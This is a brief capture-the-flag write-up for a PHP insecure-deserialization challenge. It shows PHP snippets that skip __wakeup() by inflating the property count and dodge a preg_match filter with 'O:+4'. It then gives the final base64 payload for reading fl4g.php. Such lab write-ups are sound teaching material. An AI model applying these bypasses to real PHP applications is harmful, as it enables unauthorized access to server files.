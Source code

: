 # Web_php_unserialize

![Screenshot from 2021-07-24 23-30-57](https://user-images.githubusercontent.com/87865134/126874978-4c16dc54-e4bb-4771-ae28-7d471f8ab6ff.png)

- **Hint:** flag in file fl4g.php
- **Workflow:**
  -  get value of `$_GET['var']`
  -  `base64_decode()`
  -  filter by `preg_match()`
  -  unserialize object

- **Payload need:**
  - `base64_encode()` 
  - bypass filter
  - bypass unserialize
  
1. **Bypass unserialize**
  - Create object serialize:
  ```php
  $a = new Demo("fl4g.php");
  $ser = serialize($a);
  echo $ser;
  //result: O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";} 
  ```
  - Bypass `__wakeup()`:
  ```php
  $ser = str_replace(':1:', ':2:', $ser);
  //O:4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
2. **Bypass filter `preg_match()`**
  ```php
  $ser = str_replace('O:4', 'O:+4', $ser);
  //O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
3. **Endcode base64**  
  ```php
  echo base64_encode($ser)
  ```

4. **Get payload:** `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==` 
5. **Submit payload with URL query parameter**

![Screenshot from 2021-07-24 23-42-14](https://user-images.githubusercontent.com/87865134/126875292-0f129544-1c46-4fd4-824e-b0bb1975676f.png)

### - Description:
> category: Unsecure Deserialization
